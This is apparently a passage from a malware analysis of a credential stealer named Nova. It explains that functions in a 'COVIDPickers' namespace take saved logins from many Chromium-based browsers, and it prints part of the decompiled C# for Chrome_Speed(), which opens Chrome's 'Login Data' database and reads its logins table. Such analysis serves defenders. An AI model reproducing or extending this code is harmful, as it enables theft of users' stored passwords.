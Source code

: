 [![10](/assets/images/Nova/10.png)](/assets/images/Nova/10.png){: .full}

The majority of the functions within the `COVIDPickers` namespace, such as `Comodo_Speed()`, `CoolNovo_Speed()`, `CocCoc_Speed()`, `Brave_Speed()`, `Superbird_Speed()`, `SevinStar()`, ..., are all for Chromium-based browsers and extract credentials using an extremely similar method.


#### Example Chromium Browser Credential Theft Source Code

```c#
public static void Chrome_Speed()
{
  string text = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\Google\\Chrome\\User Data\\Default\\Login Data";
  checked
  {
    try
    {
      bool flag = File.Exists(text);
      if (flag)
      {
        SQLiteHandler sqliteHandler = new SQLiteHandler(text);
        sqliteHandler.ReadTable("logins");
        int num = sqliteHandler.GetRowCount() - 1;
        for (int i = 0; i <= num; i++)
        {
```